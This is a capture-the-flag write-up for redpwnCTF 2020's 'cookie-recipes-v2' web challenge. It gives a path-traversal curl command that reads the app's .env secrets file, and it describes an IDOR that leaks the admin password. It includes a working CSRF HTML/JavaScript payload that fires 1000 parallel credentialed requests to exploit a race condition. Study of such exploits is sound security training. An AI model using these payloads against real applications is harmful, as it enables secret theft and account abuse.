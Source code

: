 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

No.

#### Solutions:

1. Unintended Solution:

The application uses dotenv to store the flag and also a path traversal vulnerability (unintended by the author)

dotenv fetches values from a file called .env. So we can get the flag by fetching this file!

```sh
curl --path-as-is https://cookie-recipes-v2.2020.redpwnc.tf/../../../../../../../app/.env

```

2. Intended Solution

1. From reading source you get to know that admin user is pushed into DB with id=0 and random password.

2. By IDOR on `GET /api/userInfo?id=0` you get the password and data of admin.

3. Observer that app is vuln to CSRF by "Content-Type","text/plain"

4. Now by Making admin bot visit our site with CSRF exploit code:

```html

<html><script>
    async function jsonreq() {
        var xhr = new XMLHttpRequest()
        xhr.open("POST","https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=13186538601383376495", true);
        xhr.withCredentials = true;
        xhr.setRequestHeader("Content-Type","text/plain");
        xhr.send(JSON.stringify({"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}));
    }
    for (var i = 0; i < 1000; i++) {
        jsonreq();
    }
</script></html>

```

5. Because code has RaceCondition bug in code where admin grants us gift points, ideally admin can only grant one gift per user but with this racing this check, Admin bot gives us enough credit to buy the Cookie recipe with flag in it.

6. Good chall, wish had tried properly.

7. Reference: https://ctftime.org/task/12103